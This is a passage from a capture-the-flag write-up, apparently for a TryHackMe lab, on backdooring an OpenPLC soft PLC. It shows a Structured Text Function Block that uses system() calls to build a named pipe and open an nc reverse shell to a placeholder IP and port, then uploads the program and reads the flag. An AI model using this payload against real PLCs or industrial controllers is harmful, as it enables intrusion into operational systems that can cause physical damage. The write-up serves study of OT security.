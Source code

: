 In short: you can create a **custom Function Block** that executes a reverse shell, and call it from your PLC program—a real backdoor.

In the article example, the shell is triggered when a button is pressed. In our case, since nothing is wired to our Soft PLC, we trigger it automatically.

I remembered that installing the OpenPLC Editor on Linux was pretty messy, and since I was in a hurry, I asked my friend Davide (thanks Davide!) to install it on his Windows PC. Then we completed the challenge together.

We created a new Ladder Diagram project, wrote a custom Function Block, and embedded it in the main program.

Payload screenshots:

{{< img src="/kaboomTHM/images/function_block.webp" alt="Description of image 1" loading="lazy" width="100%" height="auto" >}}

{{< img src="/kaboomTHM/images/program_LD.webp" alt="Description of image 1" loading="lazy" width="100%" height="auto" >}}

Since nothing is wired to this PLC, our ladder logic simply consists of the Function Block placed between the power rails—it runs unconditionally.

The code we used (adapted from the article) was:

```sh
IF (exe = TRUE) THEN
  {system("mknod /tmp/pipe p");}
  {system("/bin/sh 0</tmp/pipe | nc <IP_ADDRESS> <PORT> 1>/tmp/pipe");}
  done := TRUE;
  return;
END_IF;
done := FALSE;
return;
```

After compiling it to a `.st` file (using the orange arrow button in the toolbar), we uploaded `rev_shell.st` via the OpenPLC Runtime dashboard.

{{< notice warning >}}
Don’t forget to start your **listener!**
{{< /notice >}}

Finally, we clicked the "RUN PLC" button—and we had a reverse shell.


{{< img src="/kaboomTHM/images/reverse_runtime.png" alt="Description of image 1" loading="lazy" width="100%" height="auto" >}}

We can now navigate the Ubuntu filesystem and retrieve the flag located at `/home/ubuntu/flag.txt`.

{{< img src="/kaboomTHM/images/ubuntu_shell.png" alt="Description of image 1" loading="lazy" width="100%" height="auto" >}}


## Conclusion

I found this challenge extremely interesting because I really like to experiment with resolving "strange" challenges that differ from the usual categories. I've always been curious aubout OT (Operational Technology), which differs from IT technologies but shares some common security flaws. In future CTFs, I would like to dive deeper into OT technologies and better understand the differences and connections between IT security and OT security, while continuing to learn and apply my skills about this topic.

---
